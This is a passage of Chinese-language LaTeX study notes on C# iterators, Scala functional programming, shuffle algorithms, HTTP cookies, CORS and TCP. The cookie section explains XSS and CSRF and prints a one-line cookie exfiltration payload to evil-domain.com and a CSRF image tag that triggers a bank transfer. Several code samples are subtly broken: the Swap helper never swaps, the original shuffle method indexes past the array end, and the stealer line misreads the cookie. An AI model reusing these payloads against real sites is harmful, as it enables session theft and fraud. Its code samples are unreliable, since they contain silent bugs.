        public IterationSample(object[] values, int position)
        {
            this.values = values;
            this.startingPoint = position;
        }

        public IEnumerator GetEnumerator()
        {
            throw new NotImplementedException();
        }
        /* 此处生成一个新的Enumerator类,而不是用自身的原因
         * 是可能同时调用GetEnumerator方法多次,这样状态就会乱掉
         */
        class IterationSampleIterator : IEnumerator
        {
            IterationSample parent;
            int position;

            internal IterationSampleIterator(IterationSample parent)
            {
                this.parent = parent;
                this.position = -1;
            }

            public object Current
            {
                get { 
                    if(position == -1 || position == parent.values.Length)
                    {
                        throw new InvalidOperationException();
                    }
                    int index = position + parent.startingPoint;
                    index = index % parent.values.Length;
                    return parent.values[index];
                }
            }

            public bool MoveNext()
            {
                if (position != parent.values.Length)
                {
                    position++;
                }
                return position < parent.values.Length;
            }

            public void Reset()
            {
                position = -1;
            }
        }
    }


}
\end{CSharp}
\begin{CSharp}[C\#2中的实现]
        public IEnumerator GetEnumerator()
        {
           for(int index = 0; index < values.Length; index++)
           {
               yield return values[(index + startingPoint) % values.Length];
           }
        }
\end{CSharp}

下面代码会打印出各个操作之后所执行的代码。

\begin{CSharp}
        static readonly string padding = new string(' ', 30);

        public static IEnumerable<int> CreateEnumerable()
        {
            Console.WriteLine("{0}Starting of CreateEnumerable()", padding);

            for(int i = 0; i < 3; i++)
            {
                Console.WriteLine("{0}About to yield {1}", padding, i);
                yield return i;
                Console.WriteLine("{0}After yield {1}", padding, i);
            }

            Console.WriteLine("{0}Yiedling final value", padding);
            yield return -1;

            Console.WriteLine("{0}End of createEnumerable()", padding);
        }

        public static void PrintIteratorSteps()
        {
            IEnumerable<int> iterable = CreateEnumerable();
            IEnumerator<int> iterator = iterable.GetEnumerator();


            Console.WriteLine("Pre starting to iterate, Current = {0}", iterator.Current);

            Console.WriteLine("Starting to iterate");

            while(true)
            {
                Console.WriteLine("Calling MoveNext()...");
                bool result = iterator.MoveNext();
                if(!result)
                {
                    break;
                }
                Console.WriteLine("Fetching Current...");
                Console.WriteLine("...Current result = {0}", iterator.Current);
            }

            Console.WriteLine("After iterate, Current = {0}", iterator.Current);

            try
            {
                iterator.Reset();
            }
            catch (NotSupportedException e)
            {
                Console.WriteLine("Reset Method has not been implemented.");
            }
        }
\end{CSharp}

执行结果是
\begin{CSharp}
Pre starting to iterate, Current = 0
Starting to iterate
Calling MoveNext()...
                              Starting of CreateEnumerable()
                              About to yield 0
Fetching Current...
...Current result = 0
Calling MoveNext()...
                              After yield 0
                              About to yield 1
Fetching Current...
...Current result = 1
Calling MoveNext()...
                              After yield 1
                              About to yield 2
Fetching Current...
...Current result = 2
Calling MoveNext()...
                              After yield 2
                              Yiedling final value
Fetching Current...
...Current result = -1
Calling MoveNext()...
                              End of createEnumerable()
After iterate, Current = -1
Reset Method has not been implemented.
\end{CSharp}
\section{三个实例}
\subsection{1}
\subsection{2}
\subsection{3}

\part{Function Programming}
\chapter{Function Programming}

\subsection{基本概念}

函数式编程严格意义上的定义是没有可变量,没有赋值操作,没有命令控制结构的编程。

在实际操作中,函数式编程语言就是functions are first-class-citizens.
意思:
\begin{itemize}
\item function能在任何地方定义,包括在其他function中
\item function可以作为函数的参数和返回值
\item 存在一系列操作符来构建function
\end{itemize}

\begin{Scala}
  def square(x: Double) = x * x                   //> square: (x: Double)Double
  
  def sumOfSquare(x: Double, y: Double): Double = square(x) + square(y)
                                                  //> sumOfSquare: (x: Double, y: Double)Double
  
  sumOfSquare(3, 2 + 2)                           //> res0: Double = 25.0
\end{Scala}

\subsubsection{CBV \& CBN}

\begin{Scala}[运算过程:call by value]
sumOfSquare(3, 2+2)
sumOfSquare(3, 4)
3*3 + square(4)
9 + square(4)
9 + 4*4
9 + 16
25
\end{Scala}

\begin{Scala}[运算过程:call by name]
sumOfSquare(3, 2+2)
square(3) + square(2+2)
3*3 + square(2+2)
9 + square(2+2)
9 + (2+2)*(2+2)
9 + 4*4
25
\end{Scala}

最终计算结果相同,如果满足下面的条件:
\begin{itemize}
\item 被计算的表达式是纯函数,
\item 并且,表达式可以完成计算。
\end{itemize}

优势:
\begin{itemize}
\item call by value(CBV)的优势是所有的参数都只计算一次;
\item call by name(CBN)的有优势是对没有用的参数不进行计算。
\end{itemize}

表达式可以被终结
\begin{itemize}
\item CBV如果可以被终结,CBN也可以被终结
\item CBN可以被终结,CBV不一定可以被终结
\end{itemize}

\begin{Scala}
  def loop:Int = loop                             //> loop: => Int
  def first(x:Int, y:Int) = x                     //> first: (x: Int, y: Int)Int
  // Scala默认使用CBV,如果要强制使用CBN,使用=>来修饰参数
  def second(x: => Int, y:Int) = y                //> second: (x: => Int, y: Int)Int
 
  second(loop, 2)                                 //> res1: Int = 2
\end{Scala}

\subsubsection{if - else Expression}

\begin{Scala}[和Java相似,但是这里是表达式,不是Java中的statement]
  def abs(x: Int) = if (x >= 0) x else -x         //> abs: (x: Int)Int
\end{Scala}

\begin{Scala}[使用if实现and和or]
  def and(x: Boolean, y: Boolean) = if (x) y else false
                                                  //> and: (x: Boolean, y: Boolean)Boolean
  def or(x: Boolean, y: Boolean) = if (x) true else y
                                                  //> or: (x: Boolean, y: Boolean)Boolean

  and(true, false)                                //> res2: Boolean = false
  and(true, true)                                 //> res3: Boolean = true
  and(false, true)                                //> res4: Boolean = false
  and(false, false)                               //> res5: Boolean = false

  or(true, false)                                 //> res6: Boolean = true
  or(false, true)                                 //> res7: Boolean = true
  or(true, true)                                  //> res8: Boolean = true
  or(false, false)                                //> res9: Boolean = false
\end{Scala}

\subsubsection{Name Definition \& Value Definition}
\begin{Scala}[名字和值的不同]
  //name definition & value definition
  def x = square(2)                               //> x: => Double

  val y = square(2)                               //> y  : Double = 4.0
\end{Scala}

\subsubsection{牛顿法求根}
对于x求x的根y,首先预估一个y,这个数只需要是正数,然后通过不断改进这个值来找到合适的y(误差在要求范围之内的y),改进的公式是$y_{n+1} = (y_n + x/y)/2$
\begin{Scala}[没太弄懂为什么需要除以x来解决问题]
  def abs(x: Double): Double = if (x < 0) -x else x
                                                  //> abs: (x: Double)Double

  def sqrtIter(guess: Double, x: Double): Double =
    if (isGoodEnough(guess, x)) guess
    else sqrtIter(improve(guess, x), x)           //> sqrtIter: (guess: Double, x: Double)Double

  def isGoodEnough(guess: Double, x: Double): Boolean =
    abs(guess * guess - x) / x < 0.01             //> isGoodEnough: (guess: Double, x: Double)Boolean

  def improve(guess: Double, x: Double): Double =
    (guess + x / guess) / 2                       //> improve: (guess: Double, x: Double)Double

  def sqrt(x: Double): Double = sqrtIter(1.0, x)  //> sqrt: (x: Double)Double
\end{Scala}
注:对于递归调用的function,Scala必须指定返回的类型,而其他function则不是必须的,因为编译器无法判断递归调用的返回类型是什么。

\subsubsection{Block}
Block: {...}
\begin{itemize}
\item 包含一系列的definition和expression
\item 最后的一个元素是一个expression,定义了block的值
\item block可以出现在任何expression出现的地方
\end{itemize}

\begin{Scala}[嵌套]
  def sqrt(x: Double): Double = {

    def abs(x: Double): Double = if (x < 0) -x else x

    def sqrtIter(guess: Double, x: Double): Double =
      if (isGoodEnough(guess, x)) guess
      else sqrtIter(improve(guess, x), x)

    def isGoodEnough(guess: Double, x: Double): Boolean =
      abs(guess * guess - x) / x < 0.01

    def improve(guess: Double, x: Double): Double =
      (guess + x / guess) / 2

    sqrtIter(1.0, x)
  }      
\end{Scala}


\begin{Scala}[由于嵌套作用域,可以删除定义在里面的x]
  def sqrt(x: Double): Double = {

    def abs(x: Double): Double = if (x < 0) -x else x

    def sqrtIter(guess: Double): Double =
      if (isGoodEnough(guess)) guess
      else sqrtIter(improve(guess))

    def isGoodEnough(guess: Double): Boolean =
      abs(guess * guess - x) / x < 0.01

    def improve(guess: Double): Double =
      (guess + x / guess) / 2

    sqrtIter(1.0)
  }  
\end{Scala}


\subsubsection{代码分行}
Scala的分号可以不写,也可以写,但是如果将一个表达式分行写

\begin{Scala}
someExpression
 + someExpression
\end{Scala}
会被编译器解析为:
\begin{Scala}
someExpression;
+ someExpression;
\end{Scala}

可以这么写
\begin{Scala}
(someExpression
 + someExpression)
\end{Scala}
或者这么写
\begin{Scala}
someExpression + 
	someExpression
\end{Scala}


\subsubsection{尾递归}

递归的例子:
\begin{Scala}[GCD]
def gcd(a: Int, b: Int): Int = if (b == 0) a else gcd(b, a % b)
\end{Scala}
今天才了解到,不需要a > b,a < b的时候,第一次迭代自然的交换了两者的位置。

factorial:
\begin{Scala}
  def factorial(n: Int): Int =
    if (n == 0) 1 else n * factorial(n - 1)       //> factorial: (n: Int)Int
\end{Scala}
GCD和factorial一处很大的不同,factorial最后的结果需要外面一层的context的值,这样就导致计算机的stack必须保存外一层的execution context,而gcd的话,只是对自身本身的调用,所以stack可以重用,这样就可以使用常量的memroy space。


\subsubsection{high order function}
high order function就是函数能够被当做函数参数,能够当做函数返回值。

\begin{Scala}
  def id(x: Int): Int = x                         //> id: (x: Int)Int
  def sumInts(a: Int, b: Int): Int =
    if (a > b) 0 else id(a) + sumInts(a + 1, b)   //> sumInts: (a: Int, b: Int)Int

  def cube(x: Int): Int = x * x * x               //> cube: (x: Int)Int
  def sumCubes(a: Int, b: Int): Int =
    if (a > b) 0 else cube(a) + sumCubes(a + 1, b)//> sumCubes: (a: Int, b: Int)Int

  def factorial(n: Int): Int =
    if (n == 0) 1 else n * factorial(n - 1)       //> factorial: (n: Int)Int
  def sumFactorial(a: Int, b: Int): Int =
    if (a > b) 0 else factorial(a) + sumFactorial(a + 1, b)
                                                  //> sumFactorial: (a: Int, b: Int)Int
\end{Scala}

上面的函数表示的是$\sum_{n=a}^{b}f(x)$

\begin{Scala}
  def sum(f: Int => Int, a: Int, b: Int): Int =
    if (a > b) 0 else f(a) + sum(f, a + 1, b)     //> sum: (f: Int => Int, a: Int, b: Int)Int

  def sumInts2(a: Int, b: Int): Int = sum(x => x, a, b)
                                                  //> sumInts2: (a: Int, b: Int)Int

  def sumCubes2(a: Int, b: Int): Int = sum(x => x * x * x, a, b)
                                                  //> sumCubes2: (a: Int, b: Int)Int

  def sumFactorials2(a: Int, b: Int): Int = sum(factorial, a, b)
                                                  //> sumFactorials2: (a: Int, b: Int)Int
\end{Scala}

然后是
\begin{Scala}
  def sum2(f: Int => Int): (Int, Int) => Int = {
    def sumOfF(a: Int, b: Int): Int =
      if (a > b) 0 else f(a) + sumOfF(a + 1, b)
    sumOfF
  }                                               //> sum2: (f: Int => Int)(Int, Int) => Int

  def sumInt3 = sum2(x => x)                      //> sumInt3: => (Int, Int) => Int

  def sumCubes3 = sum2(x => x * x * x)            //> sumCubes3: => (Int, Int) => Int

  def sumFactorials3 = sum2(factorial)            //> sumFactorials3: => (Int, Int) => Int	
\end{Scala}

上面sum2的定义可以简写为:
\begin{Scala}
  def sum3(f: Int => Int)(a: Int, b: Int): Int =
    if (a > b) 0 else f(a) + sum3(f)(a + 1, b)    //> sum3: (f: Int => Int)(a: Int, b: Int)Int
\end{Scala}

\subsubsection{Map Reduce}
找到prodcut和sum的共通
\begin{Scala}
  def product(f: Int => Int)(a: Int, b: Int):Int =
    if (a > b) 1 else f(a) * product(f)(a + 1, b) //> product: (f: Int => Int)(a: Int, b: Int)Int
    
  def sum(f:Int=>Int)(a:Int, b:Int):Int =
  	if (a> b) 0 else f(a) + sum(f)(a+1, b)    //> sum: (f: Int => Int)(a: Int, b: Int)Int
 
 def reduce(f:Int=>Int, combine:(Int, Int)=>Int, zero:Int)(a:Int, b:Int):Int =
 	if (a>b) zero
 	else combine(f(a),reduce(f, combine, zero)(a+1, b))
                                                  //> reduce: (f: Int => Int, combine: (Int, Int) => Int, zero: Int)(a: Int, b: In
                                                  //| t)Int
  product(x=>x*x)(4,6)                            //> res0: Int = 14400
  
  reduce(x=>x*x, (x,y)=>x*y, 1)(4,6)              //> res1: Int = 14400
\end{Scala}


\section{Data Struct}

\subsubsection{class}


\part{Algorithm}
\chapter{洗牌算法}

\section{Fisher–Yates shuffle}
\subsection{original method}
\begin{enumerate}
\item 按顺序写下1到N;
\item 取得一个随机数K,范围是1到还没有提出的数字的个数;
\item 从小往大,提取出第K个值,删除他,然后在其他位置写下这个数;
\item 重复第2步,直到所有的数字都提取完毕;
\item 在第3步按顺序写下来的数就是原始数据的一个随机排序。
\end{enumerate}

\begin{tabular}{|c|c|l|l|}
	\hline
	范围 & 随机数 & 草稿 & 结果\\
	\hline
	 & &1,2,3,4,5,6,7,8& \\
	\hline
	1-8 & 3 & 1,2,\sout{3},4,5,6,7,8 & 3\\
	\hline
	1-7 & 4 & 1,2,\sout{3},4,\sout{5},6,7,8 & 3,5\\
	\hline
	1-6 & 5 & 1,2,\sout{3},4,\sout{5},6,\sout{7},8 & 3,5,7\\
	\hline
	1-5 & 3 & 1,2,\sout{3},\sout{4},\sout{5},6,\sout{7},8 & 3,5,7,4\\
	\hline
	1-4 & 4 & 1,2,\sout{3},\sout{4},\sout{5},6,\sout{7},\sout{8} & 3,5,7,4,8\\
	\hline
	1-3 & 1 & \sout{1},2,\sout{3},\sout{4},\sout{5},6,\sout{7},\sout{8} & 3,5,7,4,8,1\\
	\hline
	1-2 & 2 & \sout{1},2,\sout{3},\sout{4},\sout{5},\sout{6},\sout{7},\sout{8} & 3,5,7,4,8,1,6\\
	\hline
	1-1 & 1 & \sout{1},\sout{2},\sout{3},\sout{4},\sout{5},\sout{6},\sout{7},\sout{8} & 3,5,7,4,8,1,6,2\\
	\hline
\end{tabular}
\paragraph{具体实现} C\#实现
\begin{CSharp}[Origin Method]
        public static void OriginMethod(int[] origin, int seed)
        {
            Random rnd = new Random(seed);
            for (int i = origin.Length, j; i > 0; i--)
            {
                int roll = rnd.Next(i);
                int tmp = origin[roll];
                for (j = roll; j < i; j++)
                {
                    origin[j] = origin[j + 1];
                }
                origin[j] = tmp;
            }
        }
\end{CSharp}

\subsection{The modern algorithm}

\begin{CSharp}[Modern Method]
        public static void ModernMethodR(int[] origin, int seed)
        {
            Random rnd = new Random(seed);
            for(int i = origin.Length - 1; i > 0; i--)
            {
                int roll = rnd.Next(i + 1);
                Swap(ref origin[i], ref origin[roll]);
            }
        }

        public static void ModernMethodL(int[] origin, int seed)
        {
            Random rnd = new Random(seed);
            for(int i = 0; i < origin.Length - 1; i++)
            {
                int roll = rnd.Next(i, origin.Length);
                Swap(ref origin[i], ref origin[roll]);
            }
        }


        private static void Swap(ref int x, ref int y)
        {
            int tmp = x;
            x = y;
            y = x;
        }
\end{CSharp}

\subsection{The "Inside-out" algorithm}

\begin{CSharp}[Inside-out]
        public static int[] InsideOut(int[] origin, int seed)
        {
            Random rnd = new Random(seed);

            int[] result = new int[origin.Length];
            for(int i = 0; i < origin.Length; i++)
            {
                int roll = rnd.Next(i + 1);
                if (roll != i)
                {
                    result[i] = result[roll];
                }
                result[roll] = origin[i];
            }

            return result;
        }
\end{CSharp}

\section{一种解决方案}

n个有序数,随机选出m个数。

对每个数进行随机测试,判断是否要选择,通过有序访问整数,可以保证输出结果是有序的。

考虑m=2,n=5的情况。选择第一个整数0的概率为2/5,可以通过语句\lstinline!if(bigrand % 5) < 2!来测试。对于第二个整数1我们不能用相同的概率来选择,决策上要做调整:如果已经选择了0的情况下,1/4的概率选择1;在没有选择零的情况下,2/4的概率选择1。

\begin{CSharp}
        public static int[] Shuffle(int n, int m, int seed)
        {
            Random rnd = new Random(seed);
            int[] ret = new int[m];
            for(int i = 0; i < n; i++)
            {
                if (rnd.Next(n - i) < m)
                {
                    ret[ret.Length - m] = i;
                    m--;
                }
            }
            return ret;
        }
\end{CSharp}        


\section{又一种解决方案 Knuth Shuffle}

\begin{CSharp}
        public static void Shuffle(int[] origin, int seed)
        {
            Random rnd = new Random(seed);

            for(int i = 0; i < origin.Length; i++)
            {
                Utils.Swap(ref origin[i], ref origin[rnd.Next(i, origin.Length)]);
            }
        }
\end{CSharp}

\section{Shuffle Sort}
对每个元素赋一个随机数,然后对随机数进行排序




\part{Design Pattern}
\chapter{Design Pattern}


\section{命令模式}



\section{中介者模式}

如果有多个模块相互依赖,可以定义一个中介者,把模块之间的依赖逻辑转移到中介者上面,所有模块都只依赖于中介者。



\part{Web}
\chapter{Web}

\section{Cookies}

http://www.nczonline.net/blog/2009/05/05/http-cookies-explained/

cookie是一个储存在用户机器上的小的text文件,包含的是不可执行的文本。web page或者服务器告诉浏览器保存这些信息,并且在接下来的请求中按一定的规则附带这些信息,服务器可以使用这些信息来区分不同的用户。

web服务器通过HTTP header:Set-Cookie来告诉浏览器保存cookie。
\begin{HTML5}
Set-Cookie: value[; expires=date][; domain=domain][; path=path][; secure]
\end{HTML5}

\subsection{Value}

第一部分value一般来说是一个字符串,他的格式是name=value.

当cookie存在,而规则准许的情况下,cookie会在后面的请求被发送到服务器。

cookie会被保存在HTTP header:Cookie中
\begin{HTML5}
Cookie: value
\end{HTML5}
在Set-Cookie中的option选项是只被浏览器使用,Cookie头中的Value和Set-Cookie中的是一样的字符串。

如果有多个值,他们之间使用分号隔开
\begin{HTML5}
Cookie: value1; value2; name1=value1
\end{HTML5}

\subsection{Expires}

每一个选项通过分号和空格隔开。

第一个是expires,说明什么时候cookie不需要再发送给web服务器,并且可能被浏览器删除掉,这个选项的值是一个Date
\begin{HTML5}
Set-Cookie: name=Nicholas; expires=Sat, 02 May 2009 23:38:25 GMT
\end{HTML5}
如果没有定义expires,cookie的生命周期是单个的session。session的结束定义为浏览器关闭。这也是为什么每次登陆都有一个选框问是不是要保存登陆记录。如果expires的时间是一个过去的时间,那么他将被删除掉。

\subsection{Domain}

domain选项,指定cookie改发送到哪个domain。默认情况下,domain被设定为当前页面的host name。

比如说访问(http://www.nczonline.net/blog/2009/05/05/http-cookies-explained/)的时候,domain会被默认设定为(www.nczonline.net)。

自己设定的domain只能是设定cookie页面的host name的一部分(感觉应该是说是最后的那部分)。比如,我们不能在上面的那个网页中将domain设定为(google.com)无效的domain会被自动忽略掉。

比如说yahoo有很多格式如name.yahoo.com的网站(my.yahoo.com, finance.yahoo.com),如果将domain设定为(yahoo.com)的话,访问所有这些网站的时候都会带上这个cookie。

\begin{HTML5}
Set-Cookie: name=Nicholas; domain=nczonline.net
\end{HTML5}

\subsection{Path}
path和domain的功能类似,发送cookie前先要判断path是否包含在发送的页面中。这个时候就是从路径的开始一个字符一个字符的匹配。

\begin{HTML5}
Set-Cookie: name=Nicholas; path=/blog
\end{HTML5}
所有/blog开始的都是合法的,比如/blog,/blogroll
\subsection{Secure}

最后是secure,这个没有值。如果有这个选项,则cookie只有在SSL或者是HTTPS的时候才会发送。cookie通过HTTPS设定的时候,自动被加上secure选项。

当cookie设定时,可以使用任意的选项
\begin{HTML5}
Set-Cookie: name=Nicholas; domain=nczonline.net; path=/blog
\end{HTML5}
如果设定的时候这些选项,在重新设定cookie的值得时候,name,domain和path都需要带,而且相同才能设定。
\begin{HTML5}
Set-Cookie: name=Greg; domain=nczonline.net; path=/blog
\end{HTML5}
如果选项值不同,也会创建新的cookie。

当有多个相同名字的cookie被设定是,总是按最匹配的顺序一起发送

比如有
\begin{HTML5}
Set-Cookie: name=Greg; domain=nczonline.net; path=/blog
Set-Cookie: name=Nicholas; domain=nczonline.net; path=/
Set-Cookie: name=Mike
\end{HTML5}

则返回的的是:

\begin{HTML5}
Cookie: name=Mike; name=Greg; name=Nicholas
\end{HTML5}

当要修改expires的时候,name-domain-path-secure必须要都相同的时候,才能够修改。而当修改name的value的时候,则不需要指定expires。

JavaScript中使用document.cookie = ...来设定cookie,...的字符串和Set-Cookie头中应该是一样的。

httpOnly选项是的javascript无法访问当前这个cookie。


\paragraph{session hijacking} session劫持,因为是通过明文传递的。

三个方案来防止session hijacking。
\begin{itemize}

\item 只通过SLL来发送cookie
\item 使用用户信息(用户名,IP,时间戳)或者随即的方式来产生session key,使得很难重用session key
\item 在进行一些安全级别要求较高的操作时,要求重新做验证。
\end{itemize}

\paragraph{Third-Party Cookies} 第三方cookies

\begin{itemize}
\item link tag包含的CSS文件
\item script tag包含的js文件
\item object或者embed tag包含的meida文件
\item iframe tag包含的html文件
\end{itemize}

对于第三方server,可以根据请求头中包含的Referer头来判断这个请求是从哪个site过来的。服务器可以使用一个特定的cookie来表示这个请求页面,如果同一个资源从另外一个页面请求过来,cookie也会随着请求一起发送过来。这样第三方服务器就能够知道访问Site A的用户同时也访问了Site B。这是在线广告使用的一种技术。


\paragraph{Cookie Stealing \& XSS} Cookie偷取 cross-site scripting attack

在同一个页面的所有JavaScript都运行在同一个domain下,有相同的path,和页面相同的协议。这表示从其他domain导入的script可以通过读取document.cookie来获得页面的cookie。

比如说从第三方evil-domain.com导入了一些有用的code,如果在evil-domain.com的家伙将代码换成下面的代码的话。
\begin{JavaScript}
(new Image()).src = "http://www.evil-domain.com/cookiestealer.php?cookie=" + cookie.domain;
\end{JavaScript}
他们就悄悄的取得了我的页面的cookie,这样他们就可以轻松的进行其他攻击,如session hijacking.

当由于导入第三方脚本造成的攻击,我们称为XSS(cross-site scripting attack).

cookie stealing不单只是因为导入了第三方脚本导致,对input缺乏过滤也可能造成cookie stealing。如果输入可以输出到一个页面,而输入中包含了 \lstinline$<script>$标签在其中,也可能导致脚本运行。


\paragraph{CSRF} Cross-site Request Forgery

攻击者让浏览器以登陆的用户做一些有害的操作。

比如说,有人在没有验证输入的论坛上面发布了一条消息。消息内容是
\begin{JavaScript}
<img src="http://bank.example/withdraw?account=bob&amount=1000000&for=mallory">
\end{JavaScript}

当你登陆银行账号之后,访问了这个页面,这个请求会被发送出去,相应的cookie会被带上。这样你就会在不知情的情况下将钱转走。


CSRF很难track,所以阻止是关键。

\begin{itemize}
\item 不要包含不守信用的domian的脚本。
\item 一定要对用户的输入过滤。
\item Require validation not just with cookies, but also by referrer and or request type (POST instead of GET).
\end{itemize}

\begin{itemize}
\item Require confirmation for any sensitive action
\item Cookies that validate users in systems with sensitive data should have a short expiration time.
\end{itemize}

\section{authentication with a REST API}
http://stackoverflow.com/questions/15051712/how-to-do-authentication-with-a-rest-api-right-browser-native-clients

\paragraph{HTTP session Vs. stateless auth token} what's the difference?

HTTP Session:

\begin{enumerate}
\item Client requests a URL (first request to the server)
\item Server gives the normal response plus some unique string (== session ID)
\item Client has to send this string with every request (which is done automatically using HTTP header)
\item Client logs in -> Server memorizes that this particular session ID is now logged in
\item Client visits a page which requires auth -> Nothing special to do, because the session ID will automatically get sent to the server via HTTP header
\end{enumerate}

stateless auth token:

\begin{enumerate}
\item Client request URL (first request to the server)
\item Server just gives the normal response without any key or token or id
\item (nothing special here)
\item Client logs in -> Server creates an auth token and sends this token to the client inside the response
\item Client visits page which requires auth -> Client has to submit the auth token
\end{enumerate}


\section{SSE} Server-Sent Event(服务端推送事件)

\section{CORS} 跨源资源共享(Cross-Origin Resource Sharing)

使用场景:
\begin{itemize}
\item XMLHttpRequest发起跨站HTTP请求
\item Web字体
\item WebGL贴图
\item 使用drawImage API在canvas上画图
\end{itemize}


\subsection{场景}

\subsubsection*{简单请求}

什么是简单请求:
\begin{itemize}
\item 只使用 GET, HEAD 或者 POST 请求方法。如果使用 POST 向服务器端传送数据,则数据类型(Content-Type)只能是 application/x-www-form-urlencoded, multipart/form-data 或 text/plain中的一种。
\item 不会使用自定义请求头(类似于 X-Modified 这种)。
\end{itemize}

从http://foo.example想要访问 http://bar.other的资源

\begin{JavaScript}
var invocation = new XMLHttpRequest();
var url = 'http://bar.other/resources/public-data/';
   
function callOtherDomain() {
  if(invocation) {    
    invocation.open('GET', url, true);
    invocation.onreadystatechange = handler;
    invocation.send(); 
  }
}
\end{JavaScript}

\begin{HTML5}
GET /resources/public-data/ HTTP/1.1
Host: bar.other
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-US; rv:1.9.1b3pre) Gecko/20081130 Minefield/3.1b3pre
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: keep-alive
Referer: http://foo.example/examples/access-control/simpleXSInvocation.html
Origin: http://foo.example


HTTP/1.1 200 OK
Date: Mon, 01 Dec 2008 00:23:53 GMT
Server: Apache/2.0.61 
Access-Control-Allow-Origin: *
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: application/xml

[XML Data]
\end{HTML5}


\subsubsection{预请求}

预请求必须先发送一个OPTIONS请求给目的站点,来查明这个跨站请求对于目的网站是不是安全可接受的。这么做,是因为跨站请求可能会对目的站点的数据造成破坏。

什么是预请求:
\begin{itemize}
\item 请求以 GET, HEAD 或者 POST 以外的方法发起请求。或者,使用 POST,但请求数据为 application/x-www-form-urlencoded, multipart/form-data 或者 text/plain 以外的数据类型。比如说,用 POST 发送数据类型为 application/xml 或者 text/xml 的 XML 数据的请求。
\item
\end{itemize}


\subsubsection{使得Jersey支持跨域访问}

\begin{itemize}
\item 对于预请求,需要处理Option Method的请求
\item 添加对应的HTTP头
\end{itemize}


\subsubsection{No error information provided to onerror handler}

%在firefox中,使用XMLHttpRequest的onerror,status等于0, 也无法取得error信息。这是规范定义的。这里我的理解之前有点错误,这里的error是指的OPTIONS请求2XX以外的返回,以及后面正真请求的错误(比如没有提供Access-Control-Allow_Origin header)这种错误才不能够取得。


\chapter{Performence}

web性能速度是关键,而影响速度主要就是延时和带宽两方面的影响。


\includegraphics[scale=1]{web/resources/delay-band.png}


\begin{itemize}
\item 延时,分组从信息源发送到目的地的时间;
\begin{itemize}
\item 传播延时,消息从发送端到接收端的时间,与信号传播距离和速度有关。

CDN(Content Delivery Network),最主要用途就是将内容部署到全球各地,让用户从最近的服务器加载内容。

延时的最后一公里。


\item 传输延时,消息的所有bit转移到链路中所需要的时间,与消息长度和链路速率有关。
\item 处理延时,处理分组首部,检查位错误,确定分组目标所需要的时间。
\item 排队延时,到来分组排队等待的时间。
\end{itemize}
\item 带宽,逻辑或者物理通信线路的最大吞吐量。
\end{itemize}



\section{TCP}

\subsubsection{三次握手}


\includegraphics[scale=1]{web/resources/TCP-3-hand-shake.png}

\begin{itemize}
\item SYN,客服端选择随机数(ISN)一个SYN发送给客服端,
\item SYN/ACK,服务器响应ACK(SYN+1),同时选择自己的随机数发送给客服端
\item ACK,客服端发送ACK(服务器端的SYN+1)
\end{itemize}

三次握手的延时使得创建一个新的TCP连接的代价非常大。所以提高TCP应用的性能的关键是,重用连接。

\subsubsection{拥塞预防与控制}

\paragraph{rwnd}TCP连接的双方都会通告自己的接收窗口(rwnd)


\includegraphics[scale=1]{web/resources/TCP-rwnd.png}

